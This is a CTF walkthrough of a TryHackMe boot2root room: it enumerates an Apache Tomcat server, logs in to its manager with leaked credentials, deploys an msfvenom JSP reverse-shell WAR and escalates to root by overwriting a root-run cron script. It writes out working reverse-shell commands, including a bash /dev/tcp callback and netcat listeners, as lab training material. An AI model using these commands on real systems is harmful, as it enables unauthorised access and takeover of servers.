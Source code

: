 # [Anonforce TryHackMe Writeup/Walkthrough][1]

boot2root machine for FIT and bsides guatemala CTF

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.9.253
Host is up (0.067s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.22 seconds
```

Seems like we have server running on `port 8080`. The website has nothing interesting. So I ran `gobuster` scan.

Command -> `gobuster dir -u http://<IP>:8080 -w /usr/share/wordlists/dirb/common.txt -x txt,html,php`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.198.171:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2021/05/16 16:48:41 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]     
===============================================================
2021/05/16 16:50:47 Finished
===============================================================
```

I checked `/manager` and `/host-manager` they both required password. On `/manager`, I tried `admin:admin`. It didn't work and gave me an error with some useful information.

![Password](images/manager_password.png)
> Seems like we have username and password.

Refresh the page and login using this credentials. BAAM! We have the access. Did some recon and found a useful article on [Ways to Exploit Tomcat Manager][3].

We can upload `war` shell and get the access. To create reverse shell, use `msfvenom`.

Command -> `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f war > shell.war`.

![War Shell](images/war_shell.png)

You we can upload this file into `WAR` section and deploy the file.

![Upload Shell](images/war_website.png)


The page will reload and you will see the path for shell.

![Shell Location](images/shell.png)

Start a listener using `netcat`. Command -> `nc -lvnp 4444`. Go to the site `http://<IP>:8080/shell`.

You will see a connection established.

![Got Connection](images/got_connection.png)
> Now we have access as *tomcat*.

We can easily get the user flag from the home directory.

![User Flag](images/user_flag.png)

### Privilege Escalation

There is one more file `id.sh` in the user directory.

![Files](images/files_user.png)

`id.sh` is running `id` command and writing the content in `test.txt`. The content of `test.txt` seems like `root` user's ID.

That means this file is running as `root` and fortunately we have write permissions to this file. We can simply edit this file and can get the root flag/access.

#### Method 1: Get Root Access

To get the root access. We can add one liner bash shell command. To do this -> `echo "bash -i >& /dev/tcp/<YOUR_IP/4445 0>&1" > id.sh`.

Also, start a listener -> `nc -lvnp 4445`. Wait for a while you will get the access. It may take sometime to get the connection depending on `cronjob` settings.

You know what to do next :stuck_out_tongue_winking_eye:

#### Method 2: Get Root Flag Directly

To get the root flag. We can simple type -> `echo "cat /root/root.txt > test.txt" > id.sh`. As we already know the location of the file. We can simply print the content of the file to the terminal and redirects the output to `test.txt` file.

![Exploit Code](images/exploit.png)

Check the content of the `test.txt` file. If may take sometime.

![Root Flag](images/root_flag.png)


[1]: https://tryhackme.com/room/bsidesgtthompson
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/
